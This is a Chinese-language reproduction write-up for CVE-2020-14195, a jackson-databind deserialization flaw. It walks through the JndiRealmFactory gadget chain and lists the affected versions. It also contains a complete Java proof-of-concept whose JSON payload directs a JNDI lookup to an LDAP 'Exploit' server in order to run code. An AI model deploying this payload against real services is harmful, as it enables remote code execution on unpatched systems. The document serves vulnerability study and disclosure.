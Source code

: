 （CVE-2020-14195）FasterXML jackson-databind 反序列化漏洞
=========================================================

一、漏洞简介
------------

**利用条件**开启`enableDefaultTyping()`使用了`org.jsecurity.realm.jndi.JndiRealmFactory`第三方依赖

二、漏洞影响
------------

jackson-databind before 2.9.10.4jackson-databind before 2.8.11.6jackson-databind before 2.7.9.7

三、复现过程
------------

### 漏洞分析

首先定位到`org.jsecurity.realm.jndi.JndiRealmFactory`类，之后发现一处可疑的JNDI注入：1.png参数`name`来自i\$，而`i$`源自`jndiNames`，此时要想进入`lookup`需要满足前面的if条件语句，即`jndiNames`不为空，且不为`null`，所以我们可以在构造poc时直接对`jndiName`进行传参赋值操作即可，同时将其设置为我们的ldap恶意服务：2.png整个利用链如下所示：

    mapper.readValue
        ->setJndiNames
            ->getRealms
                 ->lookup

### 漏洞复现

> pom.xml如下：

    <dependencies>
        <dependency>
          <groupId>com.fasterxml.jackson.core</groupId>
          <artifactId>jackson-databind</artifactId>
          <version>2.9.10.4</version>
        </dependency>

          <!-- https://mvnrepository.com/artifact/org.jsecurity/jsecurity -->
          <dependency>
              <groupId>org.jsecurity</groupId>
              <artifactId>jsecurity</artifactId>
              <version>0.9.0</version>
          </dependency>

        <dependency>
          <groupId>org.slf4j</groupId>
          <artifactId>slf4j-nop</artifactId>
          <version>1.7.2</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/javax.transaction/jta -->
          <dependency>
              <groupId>javax.transaction</groupId>
              <artifactId>jta</artifactId>
              <version>1.1</version>
          </dependency>
      </dependencies>

> 漏洞POC:

    package com.jacksonTest;

    import com.fasterxml.jackson.databind.ObjectMapper;
    import java.io.IOException;

    public class Poc {
        public static void main(String[] args) throws Exception {
            ObjectMapper mapper = new ObjectMapper();
            mapper.enableDefaultTyping();
            String payload = "[\"org.jsecurity.realm.jndi.JndiRealmFactory\",{\"jndiNames\":\"ldap://127.0.0.1:1099/Exploit\"}]";
            try {
                Object obj = mapper.readValue(payload, Object.class);
                mapper.writeValueAsString(obj);
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }

之后运行该程序，成功执行命令，弹出计算器：

3.png

参考链接
--------

> https://xz.aliyun.com/t/8012\#toc-18
